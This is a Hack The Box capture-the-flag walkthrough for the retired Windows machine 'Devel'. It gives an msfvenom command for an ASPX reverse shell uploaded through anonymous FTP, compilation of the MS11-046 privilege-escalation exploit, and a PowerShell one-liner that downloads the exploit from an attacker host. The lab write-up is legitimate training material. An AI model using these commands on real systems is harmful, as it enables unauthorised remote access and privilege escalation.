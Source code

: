 # Hack The Box - Devel walkthrough

![](/photos/devel-photos/devel.png)

Today I am writing a walkthrough of the retired Devel machine of Hack The box.  
It is a Windows based machine.  
This machine has a static IP address <10.10.10.5>  
It was a nice easy and interesting machine.  
  
You have to found **user.txt** and **root.txt** flag. 

## Penetration Methodology

* Scanning
  * open ports, versions and services
* Enumeration
  * ftp enumeration
  * http enumeration
  * execute reverse shell
* Post Exploitation
  * user flag
  * root flag

## Scanning

Let's start our nmap to know about **open ports**, **versions** and **services** running on the machine.

![](/photos/devel-photos/devel-nmap.png)

Now we are done with our nmap.  

## Enumeration

As nmap shows us that ftp service is open and  
we can login to ftp with anonymous user.

![](/photos/devel-photos/ftp-acess.png)

As we can see that there is image name **welcome.png**  
Let's try we can access that image from the website or not.

**Wow**  
we can access ftp files from website. 

![](/photos/devel-photos/welcome.png)

Now let's upload our reverse shell on ftp server
But first check about the version and type of file which we can run on the website.

![](/photos/devel-photos/asp.png)

As we can see that this is a asp.net website.  
We can now upload our aspx reverse shell on ftp server.  
But first we have to generate it using **msfvenom**

`msfvenom -p windows/shell_reverse_tcp LHOST=<your ip> LPORT=4444 -f aspx > shell.aspx`

Now let's upload the aspx shell to ftp.

![](/photos/devel-photos/ftp-shell.png)

Let's execute our **aspx shell** from the website.  
Before executing start the listener.  

**Hey we got the shell**  
We are now **iis apppool\web**

![](/photos/devel-photos/shell.png)

## Post Exploitation

Let's enumerate for user flag  
Right now we can't read any flag so let's escalate our privelages.

![](/photos/devel-photos/denied.png)

Let's try **windwos-exploit suggestor** copy systeminfo and try with that.

as **windwos-exploit suggestor** suggests us a bunch of exploit.  
So let's try MS10-015: Vulnerabilities in Windows Kernel Could Allow Elevation of Privilege.  

It didnt work.  
let's try another exploit [MS11-046](https://www.exploit-db.com/download/40564) 

When we download this we will get 40564 file change it to 40564.c  
Then we have to compile it   
`i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32`

If mingw32 is not installed install it  
sudo apt-get install mingw32  

Now transfer the MS11-046.exe to devel machine using powershell command.  
`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://ip:8000/MS11-046.exe', 'c:\Users\Public\Downloads\MS11-046.exe')"`

![](/photos/devel-photos/sh.png)

Now we are **nt authority\system**

![](/photos/devel-photos/nt.png)

Now we can access everything in the devel machine.  
let's enumerate the user.txt flag  

We got the **user.txt** flag.

![](/photos/devel-photos/user.png)

**Root.txt** flag

![](/photos/devel-photos/root.png)

We have rooted this machine.

### Thank you

Author : Hardik Chugh








